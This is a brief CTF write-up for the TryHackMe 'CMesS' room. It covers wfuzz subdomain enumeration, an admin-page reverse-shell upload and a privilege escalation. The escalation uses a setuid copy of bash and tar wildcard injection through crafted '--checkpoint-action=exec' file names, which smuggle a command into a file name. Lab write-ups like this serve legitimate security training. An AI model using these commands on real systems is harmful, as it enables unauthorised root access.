 ```yaml
---
title: CMesS WalkThrough
permalink: /CTF/cmess
layout: page
tags: TryHackMe
---
```

# CMesS
# ![front](/images/cmess/front.png)
[https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)

**Add ipi cmess.th to `/etc/hosts`**
## Open Ports:
* 22- SSH
* 80- HTTP

![ports](/images/cmess/ports.png)

## Gaining Access:
### Port 80-
1. Do `wfuzz` _for subdomain enum_
```
wfuzz -c -f sub-fighter -w /usr/share/wfuzz/wordlist/top5000 -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm"
```
**To sort the output**
```
wfuzz -c -f sub-fighter -w /usr/share/wfuzz/wordlist/top5000 -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm" --hw 290
```
![wfuzz](/images/cmess/wfuzz.png)
1. Add ip dev.cmess.thm to /etc/hots <br>
	a. Find email<br> 
 	b. Password
1. Do dirb <br>
	a. Found ip/admin page
1. login <br>
 	a. Go to content / file / upload <br>
 	b. upload
1. go to ip/assests/php-rev
1. Upload linEum.sh<br>
 a. Found /opt/password.bak<br>
![bak](/images/cmess/bak.png)

### User Flag:
![flag](/images/cmess/flag.png)

## Priviledge Escalation
```
cat /etc/crontab
```
![cron](/images/cmess/cron.png)
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andru/shell.sh
Chmod +x  shell.sh
```
**Tar specific commands:**
* Touch /home/user/--checkpoint=1
* Touch /home/user/--checkpoint-action=exec=sh\shell.sh
 **_wait for min_**
* /tmp/bash -p

### ROOT Flag:
![root](/images/cmess/root.png)

